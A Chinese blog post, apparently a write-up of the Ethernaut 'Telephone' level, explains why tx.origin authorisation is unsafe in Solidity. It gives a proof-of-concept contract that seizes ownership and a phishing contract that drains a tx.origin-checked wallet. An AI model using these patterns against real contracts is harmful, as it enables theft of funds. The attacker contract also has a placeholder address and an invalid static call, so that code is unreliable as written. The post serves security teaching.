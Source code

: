 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-3'
date: 2022-12-8 18:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第四关Telephone  思路与POC

##### 目标: 更改合约的拥有者

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
  //定位flag代码, 问题在tx.origin这个全局变量. 
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

#### 这关实际是想说明tx.origin和msg.sender两个全局变量的区别

##### tx.origin：记录原始交易发起者的地址

##### msg.sender：记录最新一次交易发起者的地址

##### poc思路:point_right:：要使原始交易发起者地址与最近一次交易发起者地址不同只需要加中间层，即中间合约代替我们的钱包地址发起交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract fish {
//在中间合约发起交易
    Telephone tel = Telephone(0xe2eB2bd7702D93f7d2Daa5b1362819421D186542);
   function changeOwner(address owner_) public{
        tel.changeOwner(owner_);
   }
}
```

#### 其实使用tx.origin用作鉴权往往能够导致钓鱼攻击 examle :

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // 校验只有合约拥有者才能转账,但是使用tx.origin校验(无法验证是否有恶意合约中间调用)
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}


contract TxAttackWallet {
    address payable owner;
 TxUserWallet txu = TxUserWallet(address....)
    constructor() {
        owner = payable(msg.sender);
    }
    //只要接收到的是TxUserWallet合约的拥有者发起的交易 那么此处调用transfer方法是可以通过校验的
    receive() external payable {
        TxUserWallet.transferTo(owner, msg.sender.balance);
    }
}
```

